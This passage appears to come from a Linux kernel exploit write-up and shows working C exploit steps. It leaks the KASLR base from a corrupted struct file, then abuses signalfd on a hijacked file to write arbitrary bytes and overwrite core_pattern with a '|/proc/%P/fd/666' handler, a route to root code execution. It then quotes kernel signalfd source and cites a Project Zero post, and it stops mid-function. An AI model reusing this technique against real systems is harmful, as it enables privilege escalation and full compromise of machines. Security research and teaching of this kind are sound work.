 Get victim_file index and leak kaslr:

```c
  size_t victim_file_idx = *(size_t *)(victim_file_addr + OFFSET_FILE_FPOS);
  size_t shmem_file_operations =
      *(size_t *)(victim_file_addr + OFFSET_FILE_FOP);
  size_t kaslr = shmem_file_operations - SHMEM_FILE_OPERATIONS;
  size_t signalfd_fops = SIGNALFD_FOPS + kaslr;
  size_t core_pattern = CORE_PATTERN + kaslr;
  size_t private_data_before =
      *(size_t *)(victim_file_addr + OFFSET_FILE_PRIV_DATA);
```

Abuse victim_file to get arbitrary write and overwrite the core_pattern:

```c
  *(size_t *)(victim_file_addr + OFFSET_FILE_FOP) = signalfd_fops;
  char *fake = "|/proc/%P/fd/666 %P";
  for (int i = 0; i <= strlen(fake); i++) { // include the null byte
    *(size_t *)(victim_file_addr + OFFSET_FILE_PRIV_DATA) = (core_pattern + i);
    size_t mask = ~fake[i];
    SYSCHK(signalfd(spray_fds[victim_file_idx], (const sigset_t *)&mask, 0));
  }
```

This technique can be checked at [Mind the Gap - Project Zero: November 2022](https://googleprojectzero.blogspot.com/2022/11/#:~:text=struct%20was%20incremented.-,Overwriting%20the%20addr_limit,-Like%20many%20previous):

```c
static int do_signalfd4(int ufd, sigset_t *mask, int flags)
{
	struct signalfd_ctx *ctx;

	/* Check the SFD_* constants for consistency.  */
	BUILD_BUG_ON(SFD_CLOEXEC != O_CLOEXEC);
	BUILD_BUG_ON(SFD_NONBLOCK != O_NONBLOCK);

	if (flags & ~(SFD_CLOEXEC | SFD_NONBLOCK))
		return -EINVAL;

	sigdelsetmask(mask, sigmask(SIGKILL) | sigmask(SIGSTOP));
	signotset(mask);

	if (ufd == -1) {
		ctx = kmalloc(sizeof(*ctx), GFP_KERNEL);
		if (!ctx)
			return -ENOMEM;

		ctx->sigmask = *mask;

		/*
		 * When we call this, the initialization must be complete, since
		 * anon_inode_getfd() will install the fd.
		 */
		ufd = anon_inode_getfd("[signalfd]", &signalfd_fops, ctx,
				       O_RDWR | (flags & (O_CLOEXEC | O_NONBLOCK)));
		if (ufd < 0)
			kfree(ctx);
	} else {
		struct fd f = fdget(ufd);
		if (!f.file)
			return -EBADF;
		ctx = f.file->private_data;	//	<-- get priv_data
		if (f.file->f_op != &signalfd_fops) {
			fdput(f);
			return -EINVAL;
```